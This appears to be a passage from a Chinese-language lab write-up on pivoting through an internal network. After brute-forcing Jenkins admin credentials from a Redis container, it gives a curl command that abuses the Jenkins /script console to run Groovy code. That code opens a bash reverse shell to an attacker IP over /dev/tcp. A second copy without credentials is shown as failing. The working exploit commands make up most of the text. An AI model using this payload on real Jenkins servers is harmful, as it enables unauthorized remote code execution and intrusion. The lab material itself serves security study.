 redis能够访问jenkins，利用python脚本使用密码本进行爆破，获取到管理员用户名和密码后在redis的shell中运行下面的代码

```
JENKINS_URL="http://192.168.110.2:8080"
ATTACK_IP="192.168.56.104"
ATTACK_PORT="12333"
USERNAME="admin"
PASSWORD="admin"   

curl -X POST "$JENKINS_URL/script" \
  --user "$USERNAME:$PASSWORD" \
  --data-urlencode "script=def proc = ['bash','-c','bash -i >& /dev/tcp/$ATTACK_IP/$ATTACK_PORT 0>&1'].execute()" \
  --header "Content-Type: application/x-www-form-urlencoded"
```


![](实验/二层内网/在redis容器shell中攻击jenkins.png)


以下是不使用账号密码信息的结果，无法获得反弹shell
```
JENKINS_URL="http://192.168.110.2:8080"
ATTACK_IP="192.168.56.104"
ATTACK_PORT="12333"   

curl -X POST "$JENKINS_URL/script" \
  --data-urlencode "script=def proc = ['bash','-c','bash -i >& /dev/tcp/$ATTACK_IP/$ATTACK_PORT 0>&1'].execute()" \
  --header "Content-Type: application/x-www-form-urlencoded"
```